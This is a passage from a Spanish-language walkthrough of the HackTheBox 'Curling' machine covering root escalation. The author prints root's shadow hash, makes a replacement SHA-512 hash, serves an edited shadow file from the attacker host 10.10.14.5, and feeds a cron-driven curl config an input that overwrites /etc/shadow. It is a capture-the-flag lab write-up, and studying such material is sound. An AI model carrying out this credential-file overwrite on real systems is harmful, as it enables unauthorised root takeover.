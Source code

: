Esperamos un momento y ya tendríamos el archivo `shasha` en nuestra carpeta de trabajo, (de todas las formas en que podemos pasarnos el archivo) tomamos su contenido, nos lo llevamos a nuestra máquina y generamos un nuevo archivo con él:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_transport_ORIGINALshadowFILE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y ahora nos queda identificar que tipo de hash tiene el usuario `root` para así mismo generar el nuestro con el formato correcto:

```bash
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
...
```

En el mismo post nos indica:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_shadow_typeHASH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Así que el algoritmo usado es `SHA-512`, encontramos estas maneras de generarlos desde consola:

* [How to create SHA512/SHA256/MD5 password hashes on command line](https://rakeshjain-devops.medium.com/how-to-create-sha512-sha256-md5-password-hashes-on-command-line-2223db20c08c).
* [How to create SHA512 password hashes on command line](https://unix.stackexchange.com/questions/52108/how-to-create-sha512-password-hashes-on-command-line#answer-76337).

Nos quedaremos con esta manera:

```bash
❱ python3 -c 'import crypt; print(crypt.crypt("hola", crypt.mksalt(crypt.METHOD_SHA512)))'
```

Donde `hola` es la "contraseña" que queremos encriptar, pues generemos el hash para `ajatepille`:

```bash
❱ python3 -c 'import crypt; print(crypt.crypt("ajatepille", crypt.mksalt(crypt.METHOD_SHA512)))'
$6$4iWM54cNAlfhQmjI$ZXyO9QTKqY0iXUwcliHzZ.o8LjNyj.l9ZS6iw0gv7hj1vuUp2LwBykBkE2GFjsvggl2CA4HQInUCVYap6WznA0
```

Perfectísimo, lo siguiente será remplazar la contraseña de `root` por la nueva:

```bash
root:$6$4iWM54cNAlfhQmjI$ZXyO9QTKqY0iXUwcliHzZ.o8LjNyj.l9ZS6iw0gv7hj1vuUp2LwBykBkE2GFjsvggl2CA4HQInUCVYap6WznA0:17673:0:99999:7:::
...
```

Y como paso final debemos indicarle a la instrucción `cURL` que tome ese contenido y lo remplacé por el actual:

(**Levantamos un servidor web en la ruta donde esté el archivo `shadow`**)

```bash
❱ python3 -m http.server
```

Y en el objeto `input` indicamos:

```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "http://10.10.14.5:8000/shadow"\n-o /etc/shadow'
url = "http://10.10.14.5:8000/shadow"
-o /etc/shadow
```
